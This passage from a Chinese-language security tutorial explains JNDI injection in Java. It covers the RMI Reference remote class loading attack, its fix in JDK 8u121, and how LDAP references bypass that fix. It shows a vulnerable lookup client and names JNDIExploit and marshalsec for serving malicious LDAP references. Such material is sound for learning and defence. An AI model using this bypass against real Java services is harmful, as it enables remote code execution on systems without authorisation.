 
在实例化对象时，会默认调用无参的构造方法，最终成功使用 RMI Reference 执行命令

### LDAP Reference 攻击

上面，我们使用 RMI Reference 进行了远程加载恶意类，但是仅限于 JDK8u121 以下版本，在 8u121 及以后版本针对了对 RMI 远程加载的漏洞修复

![图片](assets/1711872238-98998e42db470394ee62fee7d585539c.webp)

在 JDK8u121 及以后版本，在 RMI 相关操作上增加了 `trustURLCodebase` 系统属性，该属性值默认为 `false`，要想修改必须设置系统属性，这样上面的例子就不能进行远程加载恶意代码了。

但是修复了 RMI 上的远程加载问题，LDAP 还没有解决，在上面我们分析 RMI Reference 利用时发现，真正的远程加载其实是在 `NamingManager` 的 `getObjectInstance` 的方法中，在这之前不过只是对远程引用对象处理，不是只有 RMI 才可以绑定引用对象，LDAP 一样可以，官方当时没有在 JDK8u121 版本对 LDAP 进行修复，这样就绕过了上面的修复方式

受害者服务端使用 `ldap` 协议

```plain
package JNDIResearch;

import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.rmi.RemoteException;

public class JNDILDAPClient {
    public static void main(String[] args) throws NamingException, RemoteException {
        InitialContext initialContext = new InitialContext();
        initialContext.lookup("ldap://127.0.0.1:10389/cn=test,dc=example,dc=com");
    }
}
```

这里创建 LDAP 服务使用 Apache Directory Studio 软件进行创建，该软件需要在 JDK11 版本使用，JDK8 和 JDK17 版本可能会出现问题。不想使用这种方式也可以使用 `JNDIExploit`、`marshalsec` 等工具生成一个 LDAP 服务
